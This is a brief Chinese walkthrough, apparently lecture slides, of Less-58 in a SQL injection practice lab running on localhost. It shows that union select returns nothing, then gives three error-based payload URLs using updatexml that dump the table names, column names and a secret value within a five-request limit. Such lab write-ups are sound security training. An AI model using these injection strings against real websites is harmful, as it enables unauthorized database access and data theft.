

# Less-58
本关中是对输入的次数做了限制，必须在5次请求之内获取信息，否则会刷新表名
SELECT * FROM security.users WHERE id='1'
1. 我通过不断重置数据库发现：http://127.0.0.1/sqli/Less-58/index.php?id=-1‘ union select 1,2,3--+ 这里没有回显数据，所以我们使用union select查询好像没有什么效果
2. http://127.0.0.1/sqli/Less-58/index.php?id=1‘  and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x4348414c4c454e474553   )),1) --+   直接爆出表
3. http://127.0.0.1/sqli/Less-58/index.php?id=1‘  and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=’mk25r38vwy‘   )),1) --+  直接爆出字段名字
4. http://127.0.0.1/sqli/Less-58/index.php?id=1‘  and updatexml(1,concat(0x7e,(select group_concat(secret_OHW4) from CHALLENGES.mk25r38vwy  )),1) --+  得到字段的值